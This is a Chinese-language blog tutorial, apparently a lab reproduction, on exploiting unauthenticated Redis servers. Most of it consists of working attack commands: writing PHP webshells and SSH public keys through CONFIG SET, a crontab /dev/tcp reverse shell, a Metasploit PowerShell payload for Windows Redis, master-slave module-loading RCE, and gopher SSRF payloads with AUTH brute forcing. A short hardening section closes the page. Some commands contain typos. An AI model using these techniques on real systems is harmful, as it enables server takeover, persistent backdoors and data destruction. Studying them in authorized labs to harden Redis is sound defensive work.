

Redis未授权复现与利用
Redis
REmote DIctionary Server(Redis) 是完全开源免费的，遵守BSD协议，Redis是一个由Salvatore Sanfilippo写的key-value存储系统。。
Redis 与其他它key - value 缓存产品有以下三个特点：
Redis支持数据的持久化，可以将内存中的数据保存在磁盘中，重启的时候可以再次加载进行使用。
Redis不仅仅支持简单的key-value类型的数据，同时还提供list，set，zset，hash等数据结构的存储。
Redis支持数据的备份，即master-slave模式的数据备份。
Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
漏洞的产生条件有以下两点：
1 | （1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网； |
漏洞的危害
1 | （1）攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据； |
复现过程
配置
攻击端A centos
靶机B centos
1 | 1）解压安装包：tar xzf redis-2.8.17.tar.gz进入redis目录：cd redis-2.8.17安装：make |
靶机启动redis后可以使用netstat -ntlp 查看是否开启了6379端口
一般的话也可以用nmap
nmap -A -p 6379 -script redis-info 192.168.43.159

./redis-cli -h 192.168.43.159
过程中 如果遇到 No route to host

关闭防火墙systemctl stop firewalld.service
可以iptables -F #删除过滤规则，不建议
后来发现也可以firewall-cmd --zone=public --add-port=6379/tcp --permanent开启6379端口然后重启
firewall-cmd --reload
果然是防火墙的问题
可是真正的攻击 对方肯定不会关防火墙的
这里只是对 redis 未授权进行复现所以不考虑那么多
1)查看敏感信息
192.168.43.159:6379>info

2）查看key和对应的值
keys *
SSH写入一句话木马
1 | 1.靶机redis链接未授权，在攻击机上能用redis-cli连上，并未登陆验证 |
靶机在 /var/www/html/uploads这个目录下。
执行下列命令
1 | redis-cli -h 192.168.5.135 |
当数据库过大时，redis写shell的小技巧：
1 | <?php |

由于我的靶机上没网站，所以这里就贴个别人的图片记录一下
低权也可尝试利用phpinfo的信息和默认路径操作
SSH免密码登录
当redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器。
靶机B创建.ssh文件夹
mkdir /root/.ssh
攻击机A
生成秘钥 密码设置为空
ssh-keygen -t rsa
方法一：
进入.ssh目录：cd .ssh/，将生成的公钥保存到key.txt：
1 | (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")>key.txt |
将key.txt写入redis（使用redis-cli -h ip命令连接主机A，将文件写入）
cat key.txt |redis-cli -h 192.168.43.159 -x set crack
远程登录主机A的redis服务：redis-cli -h 192.168.0.146 并使用CONFIG GET dir命令得到redis备份的路径
config get dir
更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）
config set dir /root/.ssh
设置上传公钥的备份文件名字为authorized_keys
onfig set dbfilename authorized_keys
检查是否更改成功（查看有没有authorized_keys文件），没有问题就保存然后退出，至此成功写入ssh公钥到靶机
config get dbfilename
可以在 靶机B /root/.ssh 目录下查看 authorized_keys
方法二：
生成公钥私钥
ssh-keygen -t rsa
一路回车
攻击机操作靶机Redis
指定目录config set dir /root/.ssh
指定文件名config set dbfilename authorized_keys
设置公钥内容set x "\n\n\nssh-rsaaAAAAB3NzaC1yc2EAAAADAQABAAABAQDET52Uo7NcYs0eSlt0MHrvxBUVVcN52Lr22MRwQdEu4gbqLEKn717BreUu2Vj+4x9Rsveip4aWMxddwbQgrHu7ILVqQSekkn8iUCNpq+oMAjZDnfOhkfLWZZKbrs/stb9FJ/uyOy0vXb9A5xIGdSBS8lBO0xiJc/EohNAr6eyF/U652Ir3yLvnFBWAQwg5ptoYY4JOsy8VcTbYvEV4IIFnPVMVF+IXitLczsVhCEVcNS3yl4dt6wbmRJwE+yVUMyUcFTSInOhkDCAoDsf4E6Cmbrme4yciUdVSHJrRtx8f216Ww4BL325oARE7OS0oefGQbQd6VSGa3Sdm4sYBdwoH 1@localhost.localdomain\n\n\n"
保存
save
开启 ssh 服务
1 | service ssh start |
ssh -i id_rsa 192.168.43.159
ssh 未授权登录成功
方法一的
方法二的

看到确实ip是靶机的，
利用crontab反弹shell
在权限足够的情况下，利用redis写入文件到计划任务目录下执行。
攻击端监听一个端口
nc -lvnp 4444
连接redis，写入反弹shell
1 | redis-cli -h 192.168.43.159 set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.43.159/4444 0>&1\n\n" |
1 | config set dir /var/spool/cron |
过一分钟左右就可以收到shell
利用crontab反弹shell
1 | redis-cli flushall |
利用crontab创建文件 /tmp/888
1 | redis-cli flushall # 为了方便测试 |
二次改写crontab
1 | redis-cli flushall |
利用第一步的写crontab步骤，完成下面的命令
1 | echo " " > /tmp/zz |
控制 /var/spool/cron/root 和 /tmp/zz
最终实现，每10秒从redis的c变量读入要执行的命令，再将执行结果写入变量r
1 | * * * * * sleep 10;/bin/sh /tmp/zz |
windows利用方式（转自90sec）
redis 官方未发布windows版本，但是野外存在redis/win版本。
在测试时发现一windows版本redis，遂开始搞。
直接上利用，基于msf:
1 | root@weisuo.org:~# cat hta-psh.txt |
hta-psh.txt 对一些字符串进行变通，如不，在写入时会导致字符串丢失。
1 | #msfconsole |
修改1.ps1，文件内容大概如下：
1 | $command=”powershell -nop -w hidden -e xxxxxxxxxxxxxxxx”;iex $command;$command2=”taskkill /im mshta.exe”;iex $command2; |
最后写入文件，等待管理员登陆
1 | oot@weisuo.org:~# redis-cli -h 192.168.138.27 |
1 | msf exploit(handler) > rexploit -j -z |
其他
redis主从复制rce
Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。
在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。编写恶意so文件的代码 https://github.com/RicterZ/RedisModules-ExecuteCommand
在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。然后在从机上加载so文件，我们就可以执行拓展的新命令了。
网上收集两个比较方便的getshell python脚本
1.https://github.com/n0b0dyCN/redis-rogue-server

2.https://github.com/Ridter/redis-rce
3.脚本
可用来测试是否存在未授权或弱口令的情况：
1 | #! /usr/bin/env python |
SSRF相关
ssrf，redis与gopher
如果通过ssrf探测到内网某ip开启了6379端口，并存在未授权，如何结合gopher协议来写shell。
gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。在WWW出现之前，gopher是Internet上最主要的信息检索工具，gopher站点也是最主要的站点，使用tcp70端口。但在WWW出现后，gopher失去了昔日的辉煌。现在它基本过时，人们很少再使用它；
gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，在构成符合gopher协议的请求。gopher协议是ssrf利用中最强大的协议
gopher协议格式：
1 | URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流 |
如果发起post请求，回车换行需要使用%0d%0a，如果存在多个参数，参数之间的&也需要进行URL编码。注意%0d%0a是\r\n的URL编码。
gopher发送请求HTTP GET请求:
1 | curl gopher://192.168.194.1:6666/_abcd |
注意：abcd是要传递的数据，_会被吃掉不会传递过去
由于gopher协议规则比较复杂，这里借助一个github的工具来生成payload：https://github.com/firebroo/sec_tools
只需要在redis-over-gopher/redis.cmd中写入redis执行的命令，比如下面的命令直接在web目录下写shell
1 | flushall |
编辑好后运行redis-over-gopher/redis-over-gopher.py
1 | python redis-over-gopher.py |
就可以生成支持gopher协议的payload：
使用curl运行payload
进入docker容器，发现shell.php已经成功生成
注：需要将内容再进行一次url编码传到web的参数中才会正常运行
使用ssrf端口探测的时候，不要拘泥于http协议，还可以使用dict协议来进行探测
利用gopher协议反弹shell
1 | /*gopher协议反弹shell利用脚本*/ |
redis如果有密码，是弱口令的话，可以通过python脚本爆破，看回显来确定密码是否正确
如果有口令在最前面，和gopher的格式一样，如下健为AUTH，密码为123456

爆破的时候需要在寻常的未授权前加上认证的gopher字段
1 | %2A2%0d%0a%244%0d%0aAUTH%0d%0a%246%0d%0a123456%0D%0A |
爆破成功的化可以直接结合gopher协议对redis进行写shell的操作。
这里结合上面的redis主从复制的RCE来执行命令，先来构造加载exp.so的payload
1 | config set dir /tmp/ |
这样就可以加载本地的exp.so对redis进行爆破，如果爆破成功就执行whoami命令。
这里只是一种演示，使用此方法同样可以写shell，写计划任务来获取shell。
防御方式
修复办法
（1）禁止公网开放Redis端口,可以在防火墙上禁用6379 Redis的端口
（2）检查authorized_keys是否非法，如果已经被修改，则可以重新生成并恢复，不能使用修改过的文件。并重启ssh服务（service ssh restart）
（3）增加 Redis 密码验证
首先停止REDIS服务，打开redis.conf配置文件（不同的配置文件，其路径可能不同）/etc/redis/6379.conf,找到# requirepass foobared去掉前面的#号，然后将foobared改为自己设定的密码，重启启动redis服务。
（4）修改conf文件禁止全网访问，打开6379.conf文件，找到bind0.0.0.0前面加上# （禁止全网访问）。
可参考加固修改命令
| 命令 | 描述 |
|---|---|
| port | 修改redis使用的默认端口 |
| bind | 设定redis监听的专用IP |
| requirepass | 设定redis连接的密码 |
| rename-command CONFIG “” | 禁用CONFIG命令 |
| rename-command info info2 | 重命名info为info2 |
参考文章
https://www.cnblogs.com/bmjoker/p/9548962.html
https://www.cnblogs.com/Xy--1/p/12230858.html
http://blog.csdn.net/Hu_wen/article/details/55189777?locationNum=15&fps=1
http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/
http://www.jianshu.com/p/e550628ba1bc
 wechat
wechat alipay
alipay